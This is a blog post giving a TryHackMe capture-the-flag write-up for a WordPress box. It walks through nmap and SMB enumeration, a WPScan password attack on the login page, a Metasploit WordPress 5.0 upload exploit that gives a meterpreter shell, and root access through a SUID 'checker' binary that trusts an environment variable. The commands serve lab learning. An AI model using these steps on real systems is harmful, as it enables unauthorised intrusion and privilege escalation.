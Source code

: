 ```yaml
---
weight: 3
title: "CTF writeup - Wordpress Blog"
date: 2021-05-21T22:15:40+08:00
lastmod: 2022-08-29T17:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Windows"]
categories: ["Writeups"]

lightgallery: false
summary: The tags on this box tells us that it involves Linux, Wordpress and CVE exploitation.
---
```


# TryHackMe: Wordpress Blog

![Untitled](/blog/headlogo.png)

### Description

"Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole..."

After reading the description of this room we know that its a box running Wordpress.

# Summary
1. Initial NMAP scan reveals some interesting bits: SMB shares and a WordPress admin panel.
2. Enumerating users with WPScan.
3. Password spraying with WPScan xmlrpc gives us access to the admin panel.
4. Exploiting a CVE in the WordPress upload functionality.
5. Establishing a meterpreter interactive session.
6. Finding interesting SUID binaries let's us escalate our privileges and read the user and root flags.

# Scanning & Enumeration

## NMAP

```bash
**nmap -sV -sC -A -T4 -p- 10.10.67.202**
```

{{< figure src="/blog/nmap_scan.png">}}

It shows us some Windows services like SMB and the admin interface for the wordpress site.

## Enum4linux

Lets check out SMB first.

```bash
enum4linux -a blog.thm
```

{{< figure src="/blog/enum4linux.png">}}

We got some shares and user names! Lets try and poke the BillySMB share with smbclient.

## SMBclient

```bash
smbclient [//blog.thm/BillySMB](https://blog.thm/BillySMB) -N
```

{{< figure src="/blog/smbclient.png">}}

Looks like we're chasing rabbits. This was a dead end...

# Gaining Access

Moving on to the wordpress site on port 80, we can see in the robots.txt that theres a /wp-admin/ page.

{{< figure src="/blog/login_portal.png">}}

We can enumerate users and try to password spray or brute force this login form with WPScan.

## WPScan

```bash
wpscan --url [http://blog.thm](http://blog.thm/) --enumerate u
```

{{< figure src="/blog/wpscan.png">}}

We also find some other interesting stuff, like XML-RPC etc.

Now that we know the user names, we can try to log in to the Wordpress admin panel.

```bash
wpscan --password-attack wp-login --usernames bjoel,kwheel --passwords /home/kali/wordlists/rockyou.txt --url  [http://blog.thm/wp-login.php](http://blog.thm/wp-login.php)
```

{{< figure src="/blog/password_attack.png">}}

SUCCESS! We found the password and we are now in the admin page area of the Wordpress blog:

{{< figure src="/blog/wp_admin.png">}}

Perhaps we can get a shell from here and gain initial access into the box...
We know that the WordPress version is running version 5.0, where WPScan revealed a known vulnerability.

Perhaps searchsploit has some info?

# Exploitation

```bash
searchsploit wordpress 5
```

{{< figure src="/blog/searchsploit.png">}}

This one looks interesting. A shell upload. Just what we were looking for.

Copying the shell to our working dir, and we inspect it with sublime text editor:

{{< figure src="/blog/copy_shell.png">}}

Apparently, this is a metasploit module which exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 <= 4.9.8.
It needs a user with “author” privileges to work.
Luckily for us, our Karen user has the right privileges.

## Reverse shell

And we got ourselves a nice meterpreter interactive session!

{{< figure src="/blog/meterpreter.png">}}

Time to enumerate some more...

# Privilege Escalation

The room wants us to find “user.txt”.
A quick search reveals it, but it looks like another dead end...

```bash
find / -name "user.txt" 2>/dev/null
```

{{< figure src="/blog/find_files1.png">}}

I usually upload linpeas or enum4linux or something like that, to automatically look for easy privilege escalation techniques.
But first, I always do a quick search for SUID binary files.

## SUID binary

```bash
find / -perm -u=s -type f 2>/dev/null
```

Interesting...the usual suspects are listed, but there is one among them that stands out.
I have never seen this binary “checker” before on GTFObins.

{{< figure src="/blog/meterpreter.png">}}

```bash

ls -lah /usr/sbin/checker
-rwsr-sr-x 1 root root 8.3K May 26  2020 checker
```

We can see that this binary will execute as root when we run it.

{{< figure src="/blog/rootbinary1.png">}}

It throws us an error code when we try to run it...
Lets check it out with ltrace

```bash
ltrace /usr/sbin/checker
/checker
Not an Admin
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

Analyzing the output, we can see that it just checks if we are admin with **getenv**.
We can modify this...

```bash
export admin=1
```

Now when we inspect the binary again:

{{< figure src="/blog/rootbinary2.png">}}

We are apparently set as admin and it runs bash, which will execute as root.

```bash

./usr/sbin/checker
whoami
```

{{< figure src="/blog/whoami.png">}}

Now we can finish up the room, and get the two flags!

```bash
find / -name "root.txt" 2>/dev/null
/root/root.txt
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
cat /root/root.txt
cat /media/usb/user.txt
```

{{< figure src="/blog/rootbinary3.png">}}